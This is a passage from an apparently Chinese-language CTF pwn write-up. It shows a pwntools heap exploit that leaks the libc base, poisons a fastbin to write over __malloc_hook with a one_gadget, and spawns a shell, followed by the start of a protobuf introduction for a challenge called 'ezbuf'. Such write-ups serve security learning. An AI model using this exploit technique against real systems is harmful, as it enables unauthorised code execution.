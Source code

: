 ```python
show()
p.recvuntil(b'bbbbbbbb')
libc_base = u64(p.recv(6).ljust(8,b'\x00'))-(1640+0x3C4B20)
print(hex(libc_base))

# 计算 malloc_hook 和 one_gadget 的地址
malloc_hook = libc_base + libc.sym["__malloc_hook"]
one_gadget = libc_base + one_gadget2

# 申请内存块
add(0x68,b'cccc')

# 删除刚刚申请的堆块，放入fastbin中
delete()

# 在fd指针位置写上malloc_hook-0x23的值，这个地址+8后刚好为0x7c，可以申请0x68大小的空间
edit(0x68,p64(malloc_hook-0x23))
add(0x68,b'dddd')

# 0x13字节后即为__malloc_hook的位置，写上one_gadget
add(0x68,b'a'*0x13+p64(one_gadget))

# 再次调用malloc就会执行__malloc_hook处的指令，即可获取shell
p.sendlineafter(b'choice:',b'1')
p.sendafter(b'content:',str(0x30).encode())
p.interactive()

```

## ezbuf
### protobuf
#### 简介
> 官方文档：https://protobuf.dev/overview/
> protobuf-c的官方文档：https://protobuf-c.github.io/protobuf-c
> protobuf-c的源码仓库：https://github.com/protobuf-c/protobuf-c

Protobuf是一种与语言无关、与平台无关的可扩展机制，用于序列化结构化数据。它类似于 JSON，但体积更小、速度更快，并且会生成本机语言绑定。您只需定义一次数据的结构，然后就可以使用专门生成的源代码轻松地将结构化数据写入各种数据流并使用各种语言读取这些结构化数据。

它支持以下语言
- C++
- C#
- Java
- Kotlin
- Objective-C
- PHP
- Python
- Ruby

其他语言(如C语言)需要额外安装插件，本题是一个c语言程序，用到了插件protobuf-c
